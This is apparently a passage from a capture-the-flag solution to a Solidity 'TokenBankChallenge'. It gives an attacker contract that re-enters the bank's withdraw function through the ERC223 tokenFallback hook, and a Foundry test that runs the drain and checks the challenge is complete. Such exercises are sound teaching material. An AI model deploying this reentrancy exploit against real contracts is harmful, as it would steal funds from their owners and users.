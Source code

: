 ```

    constructor(address challengeAddress) {
        challenge = TokenBankChallenge(challengeAddress);
    }
    // Write your exploit functions here
    function depositToAttackContract(uint256 amount) public {
        challenge.token().transferFrom(msg.sender, address(this), amount);
    }

    function depositToTokenBank(uint256 amount) public {
        challenge.token().transfer(address(challenge), amount);
    }

    function attack(uint256 amount) public {
        challenge.withdraw(amount);
    }

    function tokenFallback(address from, uint256 value, bytes memory data) public {
        if (challenge.token().balanceOf(address(challenge)) > 0) {
            challenge.withdraw(value);
        }
    }
}
```
- `test/Week8-9/TokenBank.t.sol`
```
contract TokenBankTest is Test {
    TokenBankChallenge public tokenBankChallenge;
    TokenBankAttacker public tokenBankAttacker;
    SimpleERC223Token public token;

    address player = address(1234);

    function setUp() public {}

    function testExploit() public {
        tokenBankChallenge = new TokenBankChallenge(player);
        tokenBankAttacker = new TokenBankAttacker(address(tokenBankChallenge));
        token = tokenBankChallenge.token();

        // Put your solution here
        vm.startPrank(player);
        tokenBankChallenge.withdraw(500_000 * 10 ** 18);
        token.approve(address(tokenBankAttacker), type(uint256).max);
        uint256 playerBalance = token.balanceOf(player);
        tokenBankAttacker.depositToAttackContract(playerBalance);
        tokenBankAttacker.depositToTokenBank(playerBalance);
        tokenBankAttacker.attack(playerBalance);
        vm.stopPrank();

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(tokenBankChallenge.isComplete(), "Challenge Incomplete");
    }
}
```
